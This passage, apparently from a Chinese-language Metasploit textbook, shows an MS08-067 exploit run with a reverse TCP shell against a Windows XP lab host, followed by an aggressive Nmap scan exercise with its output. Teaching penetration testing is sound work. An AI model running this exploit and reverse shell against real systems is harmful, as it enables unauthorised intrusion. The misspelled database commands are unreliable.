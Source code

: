 ```
 # msfcli windows/smb/ms08_067_netapi RHOST=192.168.0.7 LHOST=192.168.0.3 PAYLOAD=windows/shell/reverse_tcp E
    [*] Please wait while we load the module tree...
    [*] Started reverse handler on 192.168.0.3:4444
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP Service Pack 2 - lang:English
    [*] Selected Target: Windows XP SP2 English (NX)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (240 bytes) to 192.168.0.7
    [*] Command shell session 1 opened (192.168.0.3:4444 -> 192.168.0.7:1027)

    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.

    C:WINDOWSsystem32> 
```

正如你所看到的，我们在为所选有效载荷设置`LHOST`参数后，已经获得了对目标机器的本地 shell 访问。

# 忍者 101 训练

本节提供的示例将阐明您对利用框架进行各种方式的理解。不可能涵盖每一个方面，或者使用 Metasploit 框架，但我们已经仔细研究并提取了最重要的功能供您练习。要深入了解 Metasploit 框架，我们强烈建议您阅读在线教程*Metasploit Unleashed*，网址为[`www.offensive-security.com/metasploit-unleashed/`](http://www.offensive-security.com/metasploit-unleashed/)。该教程包含了来自渗透测试角度的高级材料，包括有关利用开发、漏洞研究和评估技术的见解。

# 场景 1

在这个练习中，我们将演示如何利用 Metasploit 框架进行端口扫描、操作系统指纹识别和服务识别，使用集成的 Nmap 工具。在 MSFConsole 上，执行以下命令：

```
 msf> load db_tracker
    [*] Successfully loaded plugin: db_tracker 
```

如果遇到数据库连接错误，可以使用以下两个命令：

`Systemclt start postgresql`

`Msfdb inint`

数据库跟踪器将保存会话获取的数据以供进一步使用。要开始 Nmap 扫描，请输入以下内容：

```
    msf>db_nmap -T Aggressive -sV -n -O -v 192.168.0.7 Starting Nmap 5.00 ( http://nmap.org ) at 2010-11-11 22:34 UTC NSE: Loaded 3 scripts for scanning. Initiating ARP Ping Scan at 22:34 Scanning 192.168.0.7 [1 port] Completed ARP Ping Scan at 22:34, 0.00s elapsed (1 total hosts) Initiating SYN Stealth Scan at 22:34 Scanning 192.168.0.7 [1000 ports] Discovered open port 445/tcp on 192.168.0.7 Discovered open port 135/tcp on 192.168.0.7 Discovered open port 25/tcp on 192.168.0.7 Discovered open port 139/tcp on 192.168.0.7 Discovered open port 3389/tcp on 192.168.0.7 Discovered open port 80/tcp on 192.168.0.7 Discovered open port 443/tcp on 192.168.0.7 Discovered open port 21/tcp on 192.168.0.7 Discovered open port 1025/tcp on 192.168.0.7 Discovered open port 1433/tcp on 192.168.0.7 Completed SYN Stealth Scan at 22:34, 3.04s elapsed (1000 total ports) Initiating Service scan at 22:34
    Scanning 10 services on 192.168.0.7
    Completed Service scan at 22:35, 15.15s elapsed (10 services on 1 host)
    Initiating OS detection (try #1) against 192.168.0.7
    ...
    PORT     STATE SERVICE       VERSION
    21/tcpopen  ftp           Microsoft ftpd
    25/tcpopen  smtp          Microsoft ESMTP 6.0.2600.2180
    80/tcpopen  http          Microsoft IIS httpd 5.1
    135/tcp  openmsrpc         Microsoft Windows RPC
    139/tcp  opennetbios-ssn
    443/tcp  open  https?
    445/tcp  openmicrosoft-ds  Microsoft Windows XP microsoft-ds
    1025/tcpopen  msrpc         Microsoft Windows RPC
```